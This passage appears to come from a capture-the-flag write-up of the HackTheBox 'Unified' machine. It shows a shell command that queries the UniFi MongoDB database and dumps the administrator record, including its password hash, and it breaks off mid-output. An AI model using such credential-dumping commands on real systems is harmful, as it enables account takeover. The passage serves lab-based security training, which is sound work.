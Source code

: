 3. MONGODB
-----------
unifi@unified:/usr/lib/unifi/bin$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
.forEach(printjson);"e --eval "db.admin.find().
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",
        "ui_settings" : {
                "neverCheckForUpdate" : true,
                "statisticsPrefferedTZ" : "SITE",
                "statisticsPreferBps" : "",
                "tables" : {
                        "device" : {
                                "sortBy" : "type",
                                "isAscending" : true,
                                "initialColumns" : [
                                        "type",
                                        "deviceName",
                                        "status",
                                        "connection",
                                        "network",
                                        "ipAddress",
                                        "experience",
                                        "firmwareStatus",
                                        "downlink",
                                        "uplink",
                                        "dailyUsage"
                                ],
                                "columns" : [
                                        "type",
                                        "deviceName",
                                        "status",
                                        "macAddress",
                                        "model",
                                        "ipAddress",
                                        "connection",
                                        "network",
                                        "experience",
                                        "firmwareStatus",
                                        "firmwareVersion",
                                        "memoryUsage",
                                        "cpuUsage",
                                        "loadAverage",
                                        "utilization",
                                        "clients",
                                        "lastSeen",
                                        "downlink",
                                        "uplink",
                                        "dailyUsage",
                                        "uptime",
                                        "wlan2g",
                                        "wlan5g",
                                        "radio2g",
                                        "radio5g",